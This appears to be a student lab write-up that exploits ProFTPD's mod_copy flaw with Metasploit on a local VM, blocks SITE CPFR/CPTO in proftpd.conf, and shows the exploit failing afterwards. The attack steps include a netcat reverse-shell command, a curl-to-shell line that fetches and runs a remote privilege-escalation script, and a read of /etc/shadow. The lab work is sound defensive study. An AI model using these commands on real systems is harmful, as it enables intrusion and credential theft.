





# 📃 Phase 3: Defensive Strategy

---

# 🛡️ 1. BEFORE Defense - Full Successful Exploitation (from Phase 1)

## Step 1: Scan Victim with Nmap
```bash
nmap -sV 10.0.2.15
```


## Step 2: Launch Metasploit Console
```bash
msfconsole
```


## Step 3: Search for mod_copy Exploit
```bash
search mod_copy
```


## Step 4: Select Exploit Module
```bash
use 0
```


## Step 5: Show Options
```bash
show options
```


## Step 6: Set RHOSTS and SITEPATH
```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```


## Step 7: Show Payloads
```bash
show payloads
```


## Step 8: Set Payload
```bash
set payload 5
```


## Step 9: Show Payload Options
```bash
show payload options
```


## Step 10: Set Reverse Shell Command
```bash
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
```


## Step 11: Allow No Cleanup
```bash
set AllowNoCleanup true
```


## Step 12: Start Netcat Listener
```bash
nc -lnvp 4444
```


## Step 13: Run Exploit
```bash
run
```


## Step 14: Confirm Shell Access
```bash
whoami
```


## Step 15: Gain Root Privileges
```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/escalate.sh)"
whoami
```



## Step 16: View /etc/shadow File
```bash
cat /etc/shadow
```


---

# 🔨 2. Defense - Secure ProFTPD Configuration

## Step 1: Edit proftpd.conf to Block mod_copy Commands
```bash
sudo nano /opt/proftpd/etc/proftpd.conf
```


Scroll to the bottom and add:
```apache
<Limit SITE_CPFR>
  DenyAll
</Limit>
<Limit SITE_CPTO>
  DenyAll
</Limit>
```


Save and exit.


## Step 2: Restart ProFTPD Service
```bash
sudo service proftpd restart
```


---

# 🔫 3. AFTER Defense - Exploit Attempt Fails

## Step 1: Re-scan Victim Machine
```bash
nmap -sV 10.0.2.15
```


## Step 2: Relaunch Metasploit
```bash
msfconsole
```


## Step 3: Search for mod_copy Again
```bash
search mod_copy
```


## Step 4: Configure Exploit Again
```bash
use exploit/unix/ftp/proftpd_modcopy_exec
show options
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```


## Step 5: Set Payload and Reverse Shell Command
```bash
show payloads
set payload 5
show payload options
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
set AllowNoCleanup true
```


## Step 6: Start Netcat Listener Again
```bash
nc -lnvp 4444
```


## Step 7: Run Exploit Again
```bash
run
```


## Step 8: Attempt whoami - No Shell Access
```bash
whoami
```


---

# ✅ Conclusion

| Step | Result |
|:----|:------|
| Initial Exploitation (Phase 1) | ✅ Successful |
| Defense Implemented (Phase 3) | ✅ Successful |
| Exploitation Attempt After Defense | ❌ Failed |

- The ProFTPD service is now secured and no longer exploitable via `mod_copy` vulnerability.

---
